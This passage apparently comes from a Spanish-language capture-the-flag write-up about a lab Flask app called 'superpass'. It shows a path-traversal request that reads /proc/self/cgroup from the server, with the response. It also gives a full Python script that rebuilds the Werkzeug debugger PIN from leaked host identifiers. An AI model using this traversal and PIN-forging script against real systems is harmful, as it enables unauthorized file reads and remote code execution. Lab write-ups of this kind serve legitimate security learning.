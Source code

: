 Y el ```/proc/self/cgroup```

```null
GET /download?fn=../proc/self/cgroup HTTP/1.1
```

```null
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 12 Aug 2023 09:51:07 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 35
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

0::/system.slice/superpass.service
```

El script final quedaría así:

```py
import hashlib
from itertools import chain
probably_public_bits = [
    'www-data',# username
    'flask.app',# modname
    'wsgi_app',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/app/venv/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '345052377296',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'ed5b159560f54721827644bc9b220d00superpass.service'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```